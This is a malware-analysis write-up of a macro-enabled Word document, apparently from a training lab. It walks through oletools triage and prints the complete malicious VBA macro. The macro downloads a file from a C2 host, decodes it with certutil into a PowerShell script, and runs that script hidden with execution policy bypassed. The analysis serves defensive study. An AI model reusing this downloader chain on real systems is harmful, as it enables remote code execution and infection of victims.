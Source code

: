 # bookReport.docm

## Identification:

**FileName:** bookReport.docm

**SHA256:** 43e3e798644478cb52bdc2dea7eeb0f3a779a24b74514eebb27667652c3b6f4e

**FileSize:** 24576 (bytes)

<br>

## Analysis:

**Note:** This sample contain the same macro of sheetsForFinancial.xlsm.

The analysis was started by checking if the word contain macro. For this Oletools were used. Initial triage on the sample was carried out using oleid to check for any macro or remote template injections using the command. 

`oleid bookReport.docm`

    oleid 0.60.dev1 - http://decalage.info/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Filename: bookReport.docm
    --------------------+--------------------+----------+--------------------------
    Indicator           |Value               |Risk      |Description
    --------------------+--------------------+----------+--------------------------
    File format         |MS Word 2007+ Macro-|info      |
                        |Enabled Document    |          |
                        |(.docm)             |          |
    --------------------+--------------------+----------+--------------------------
    Container format    |OpenXML             |info      |Container type
    --------------------+--------------------+----------+--------------------------
    Encrypted           |False               |none      |The file is not encrypted
    --------------------+--------------------+----------+--------------------------
    VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                        |                    |          |macros. Suspicious
                        |                    |          |keywords were found. Use
                        |                    |          |olevba and mraptor for
                        |                    |          |more info.
    --------------------+--------------------+----------+--------------------------
    XLM Macros          |No                  |none      |This file does not contain
                        |                    |          |Excel 4/XLM macros.
    --------------------+--------------------+----------+--------------------------
    External            |0                   |none      |External relationships
    Relationships       |                    |          |such as remote templates,
                        |                    |          |remote OLE objects, etc
    --------------------+--------------------+----------+--------------------------

Here, from the result of oleid tool, it was found that this word file contain VBA macro.

Using the oledump tool, it was then checked which stream contains the macro as shown below.

`oledump.py bookReport.docm`

    A: word/vbaProject.bin
     A1:       418 'PROJECT'
     A2:        71 'PROJECTwm'
     A3: M    5050 'VBA/NewMacros'
     A4: m     938 'VBA/ThisDocument'
     A5:      2891 'VBA/_VBA_PROJECT'
     A6:      1505 'VBA/__SRP_0'
     A7:       144 'VBA/__SRP_1'
     A8:       214 'VBA/__SRP_2'
     A9:       220 'VBA/__SRP_3'
    A10:       570 'VBA/dir'

Here, the streams 3 and 4 seems to contain macro.

Again using the oledump tool, the macro from stream 3 was dumped using the command.

`oledump.py -s 3 -v bookReport.docm`

    Attribute VB_Name = "NewMacros"
    Function genStr(Length As Integer)
    Dim chars As Variant
    Dim x As Long
    Dim str As String
    
      If Length < 1 Then
        Exit Function
      End If
    
    chars = Array("a", "b", "c", "d", "e", "f", "g", "h", "i", "j", _
      "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", _
      "y", "z", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "!", "@", _
      "#", "$", "%", "^", "&", "*", "A", "B", "C", "D", "E", "F", "G", "H", _
      "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", _
      "W", "X", "Y", "Z")
      For x = 1 To Length
        Randomize
        str = str & chars(Int((UBound(chars) - LBound(chars) + 1) * Rnd + LBound(chars)))
      Next x
    
      randStr = str
    
    End Function
            Sub Workbook_Open()
                Dim str1: genStr (17)
                Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
                str2 = "wgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWFzLiBEbyB5b3UgbmVlZCBhIG1hbmFnZXI/CgpNdXN0IGdvIGZhc3Rlci4uLiBnbywgZ28sIGdvLCBnbywgZ28hIFRoaXMgdGhpbmcgY29tZXMgZnVsbHkgbG9hZGVkLiBBTS9GTSByYWRpbywgcmVjbGluaW5nIGJ1Y2tldC"
                Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
                str3 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                xHttp.Open "GET", "http://srv3.wonderballfinancial.local/abc123.crt", False
                xHttp.Send
                Dim str9: genStr (10)
                With bStrm
                .Type = 1 '//binary
                .Open
                .write xHttp.responseBody
                .savetofile "encd.crt", 2 '//overwrite
                End With
                str5 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                str6 = "Z2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWZ2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZW"
                Shell ("cmd /c certutil -decode encd.crt run.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\run.ps1")
            End Sub

From the VBScipt, it can be seen that: 
- From its C2 'srv3.wonderballfinancial.local', it downloads 'abc123.crt' and save it as 'encd.crt'. 
- It then uses certutil to decode 'encd.crt' and then save it as a PowershellScript 'run.ps1'. 
- Finally, it executes 'run.ps1' script by allowing execution of the unsigned PowerShell script and by hiding its window. 